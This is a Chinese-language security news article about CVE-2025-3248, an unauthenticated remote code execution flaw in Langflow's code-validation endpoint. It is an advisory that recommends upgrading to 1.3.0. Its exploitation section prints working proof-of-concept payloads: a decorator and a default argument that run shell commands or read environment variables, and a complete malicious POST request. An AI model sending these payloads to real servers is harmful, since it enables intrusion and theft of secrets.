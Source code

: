#  【安全圈】CVE-2025-3248：Langflow 开源平台严重远程代码执行漏洞威胁 AI 工作流安全   
 安全圈   2025-04-27 11:01  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aBHpjnrGylgOvEXHviaXu1fO2nLov9bZ055v7s8F6w1DD1I0bx2h3zaOx0Mibd5CngBwwj2nTeEbupw7xpBsx27Q/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
**关键词**  
  
  
  
安全漏洞  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aBHpjnrGylgn0uOW3DkrvDeoQib5icneib8PjIghQrOrdyiaVlicgCABvU3uXbkZ23bl4QSgSf0ibpK7PYcZhdYkfia2w/640?wx_fmt=png&from=appmsg "")  
  
网络安全研究人员在 Langflow 中发现了一个严重的远程代码执行（RCE）漏洞。Langflow 是一个被广泛用于以可视化方式构建由人工智能驱动的智能体和工作流程的开源平台。  
  
这个高严重性漏洞被编号为 CVE-2025-3248，其通用漏洞评分系统（CVSS）评分为 9.8，属于严重级别。  
  
该安全漏洞影响 1.3.0 版本之前的所有 Langflow 版本，攻击者无需身份验证即可在存在漏洞的服务器上执行任意命令，这有可能危及敏感数据和系统安全。  
  
该漏洞专门针对 Langflow 的 /api/v1/validate/code 端点，该端点在用户提供的代码上不当调用了 Python 的内置函数 exec ()。  
  
这一实现缺乏适当的身份验证检查和沙盒保护机制，为恶意行为者提供了一个危险的攻击面。  
  
在其人工智能开发工作流程中使用 Langflow 的企业面临着重大风险，因为攻击者可以利用这一漏洞获得对系统的未经授权访问，并以应用服务器的权限执行命令。  
  
Zscaler 的研究人员发现，该漏洞源于 Python 在处理函数定义时的特性，即在函数定义处理过程中，装饰器和默认参数值会被立即求值。  
  
这一特性使得嵌入在这些结构中的恶意代码能够在抽象语法树（AST）处理阶段执行。  
  
研究人员强调，这一漏洞表明在处理动态代码执行时，实施适当的身份验证和沙盒措施至关重要。  
  
攻击者可以利用这个漏洞针对可公开访问的 Langflow 实例，或者通过各种攻击途径入侵内部部署的系统。  
  
一旦获得访问权限，攻击者就可以利用这个存在漏洞的端点建立持久访问权限、窃取数据，或者在受影响的网络中进行横向移动。  
  
鉴于该漏洞易于被利用且容易被访问，安全专家敦促立即修复这一漏洞。  
  
对技术实现的研究表明，Langflow 的代码验证机制试图在评估特定组件（包括函数定义）之前，将用户提交的代码解析为抽象语法树（AST）。  
  
这个过程涉及导入指定的模块并执行函数定义以验证其结构，但关键的是未能限制执行上下文。  
  
**利用机制**  
  
攻击方以创造性的方式利用了 Python 的函数定义特性来实现代码执行。  
  
当 Langflow 通过其验证端点处理代码时，攻击者可以使用两种主要方法注入恶意负载。  
  
第一种方法是将命令嵌入函数装饰器中，这些装饰器在代码处理过程中会立即执行。例如：  
```
@exec("import os; os.system('id > /tmp/pwned')")
def foo():
    pass
```  
  
第二种方法是利用函数定义中的默认参数值，这些默认参数值在抽象语法树（AST）处理阶段也会被求值：  
```
def foo(cmd=exec("__import__('subprocess').check_output(['env'])")):
    pass
```  
  
当攻击者通过 POST 请求将这些恶意负载发送到存在漏洞的端点时，攻击就会发生：  
```
POST /api/v1/validate/code HTTP/1.1
Host: vuln-test-langflow.example.com
Content-Type: application/json
Content-Length: 172
{
    "code": "@exec(\"with open('hacked.txt', 'w') as f: f.write('The server has been compromised')\")\ndef foo():\n        pass"
}
```  
  
完整的攻击链条展示了攻击者如何从针对存在漏洞的端点，逐步实现对服务器的代码执行。  
  
虽然服务器的响应看似正常，但恶意代码会在后台悄然执行，有可能创建后门或窃取数据。  
  
强烈建议使用 Langflow 的企业立即升级到 1.3.0 或更高版本，该版本对存在漏洞的端点要求进行身份验证。  
  
此外，实施网络分段、通过零信任架构限制访问，以及部署监控解决方案，有助于在进行升级的同时降低风险。  
  
  
  END    
  
  
阅读推荐  
  
  
[【安全圈】零日漏洞引发危机：黑客利用 Ivanti VPN 发动 DslogdRAT 恶意攻击](https://mp.weixin.qq.com/s?__biz=MzIzMzE4NDU1OQ==&mid=2652069289&idx=1&sn=16bc1c5c2d7fb83e495c4733c49d8cab&scene=21#wechat_redirect)  
  
  
  
[【安全圈】卡巴斯基发现由 Lazarus 黑客组织发起的针对韩国供应链的新型网络攻击](https://mp.weixin.qq.com/s?__biz=MzIzMzE4NDU1OQ==&mid=2652069289&idx=2&sn=daf5471ab2dd7299dc8647e432e95dda&scene=21#wechat_redirect)  
  
  
  
[【安全圈】NVIDIA NeMo 框架三大高危漏洞致远程攻击与数据篡改风险剧增](https://mp.weixin.qq.com/s?__biz=MzIzMzE4NDU1OQ==&mid=2652069289&idx=3&sn=ec5cf76b3bc93780cc966c259505f57d&scene=21#wechat_redirect)  
  
  
  
[【安全圈】Kubernetes 集群安全漏洞遭利用，算力资源面临严重危机](https://mp.weixin.qq.com/s?__biz=MzIzMzE4NDU1OQ==&mid=2652069278&idx=2&sn=1de49835dbc9a027714f7dd639995399&scene=21#wechat_redirect)  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/aBHpjnrGylgeVsVlL5y1RPJfUdozNyCEft6M27yliapIdNjlcdMaZ4UR4XxnQprGlCg8NH2Hz5Oib5aPIOiaqUicDQ/640?wx_fmt=gif "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aBHpjnrGylgeVsVlL5y1RPJfUdozNyCEDQIyPYpjfp0XDaaKjeaU6YdFae1iagIvFmFb4djeiahnUy2jBnxkMbaw/640?wx_fmt=png "")  
  
**安全圈**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/aBHpjnrGylgeVsVlL5y1RPJfUdozNyCEft6M27yliapIdNjlcdMaZ4UR4XxnQprGlCg8NH2Hz5Oib5aPIOiaqUicDQ/640?wx_fmt=gif "")  
  
  
←扫码关注我们  
  
**网罗圈内热点 专注网络安全**  
  
**实时资讯一手掌握！**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/aBHpjnrGylgeVsVlL5y1RPJfUdozNyCE3vpzhuku5s1qibibQjHnY68iciaIGB4zYw1Zbl05GQ3H4hadeLdBpQ9wEA/640?wx_fmt=gif "")  
  
**好看你就分享 有用就点个赞**  
  
**支持「****安全圈」就点个三连吧！**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/aBHpjnrGylgeVsVlL5y1RPJfUdozNyCE3vpzhuku5s1qibibQjHnY68iciaIGB4zYw1Zbl05GQ3H4hadeLdBpQ9wEA/640?wx_fmt=gif "")  
  
  

